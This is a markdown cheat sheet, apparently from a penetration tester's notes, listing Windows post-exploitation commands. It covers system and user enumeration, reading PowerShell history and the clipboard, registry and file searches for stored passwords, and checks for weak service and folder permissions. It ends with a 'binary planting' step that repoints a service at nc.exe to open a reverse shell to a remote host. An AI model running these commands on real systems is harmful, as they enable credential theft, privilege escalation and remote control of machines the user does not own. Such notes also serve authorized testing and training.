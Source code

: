 ```yaml
---
tags:
  - Post-Exploitation
  - OperatingSystems
  - Windows
  - Concepts
  - Information
---
```


##### What system are we connected to?

```
Get-WmiObject -Class win32_OperatingSystem | select Version,BuildNumber
Get-WmiObject -Class win32_Process 
Get-WmiObject -Class win32_Service
Get-WmiObject -Class win32_Bios
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```

##### Get tokens and privileges 

```
whoami /priv
Get-WmiObject win32_useraccount | Select name,sid
```

##### Get the hostname and username (if available)

```
hostname
echo %username%
```

##### Get users

```
net users
net user [username]
```

##### Get groups

```
get-LocalGroup | ft Name, SID
```

##### Networking stuff

```
ipconfig /all
```

##### Get session history 

```
Get-Content $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine
Get-Content (Get-PSReadlineOption).HistorySavePath
```

##### Get user clipboard

```
Get-Clipboard
```

##### Find Printers

```
route print
```

##### ARP-arific

```
arp -A
```

##### Which protection settings enabled

```
Get-MpComputerStatus
```

##### Active network connections

See [[Find Open Ports]]
```
netstat -ano
```

##### Firewall fun (Win XP SP2+ only)

```
netsh firewall show state
netsh firewall show config
netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all
```

##### Scheduled tasks, see [[Scheduled Tasks]] and [[5. Standard Information/Operating Systems/Windows/Scheduled Tasks/1. Guide|Guide]]

```
schtasks /query /fo LIST /v
```

##### Running processes to started services

```
tasklist /SVC
net start
```

##### Driver madness
```
DRIVERQUERY
```

##### WMIC fun (Win 7/8 -- XP requires admin), use the `wmic_info` script

```
wmic /?
```

##### [[Credential Hunting]] 

##### WMIC: check patch level

```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```
```
wmic service get name,displayname,pathname,startmode
```
```
wmic service get name,displayname,pathname,startmode |findstr /i "auto"
```
```
wmic product get name, version, vendor
```

##### Search pathces for given patch

```
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.."
```

##### AlwaysInstallElevated fun

```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```

##### AutoRun (See [[AutoRun SysInternals]])

```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```
```
reg query HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved\Run
```

##### [[Registry Passwords]] 

```
reg query HKLM /f password /t REG_SZ /s
```
```
reg query HKCU /f password /t REG_SZ /s
```

##### Other commands to run to hopefully get what we need

```
dir /s *pass* == *cred* == *vnc* == *.config*
```
```
findstr /si password *.xml *.ini *.txt
```
```
reg query HKLM /f password /t REG_SZ /s
```
```
reg query HKCU /f password /t REG_SZ /s
```

##### Service permissions

```
sc query
```
```
sc qc [service_name]
```
See [[DLL Hijacking]]
```
sc qc dllsvc (See [[DLL Hijacking]] )
```
If NT Auth, see [[RegSVC Writable]]
```
sc qc regsvc
```
If SYSTEM SERVICE_START_NAME, see [[Insecure Service Executables]]
```
sc qc filepermsvc
```

##### Accesschk stuff

```
accesschk.exe /accepteula (always do this first!!!!!)
```
```
accesschk.exe /accepteula -uwcqv user daclsvc
```
```
accesschk.exe -ucqv [service_name] (requires sysinternals accesschk!)
```
```
accesschk.exe -uwcqv "Authenticated Users" * (won't yield anything on Win 8)
```
```
accesschk.exe -ucqv [service_name]
```
```
accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

##### Find all weak folder permissions per drive.

```
accesschk.exe -uwdqs Users c:\
```
```
accesschk.exe -uwdqs "Authenticated Users" c:\
```

##### Find all weak file permissions per drive.

```
accesschk.exe -uwqs Users c:\*.*
```
```
accesschk.exe -uwqs "Authenticated Users" c:\*.*
```

##### Binary planting

```
sc config [service_name] binpath= "C:\nc.exe -nv [RHOST] [RPORT] -e C:\WINDOWS\System32\cmd.exe"
```
```
sc config [service_name] obj= ".\LocalSystem" password= ""
```
```
sc qc [service_name] (to verify!)
```
```
net start [service_name]
```

##### Driver querying

```
driverquery /v /fo csv
```
```
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select Object ‘Display Name’, ‘Start Mode’, Path
```
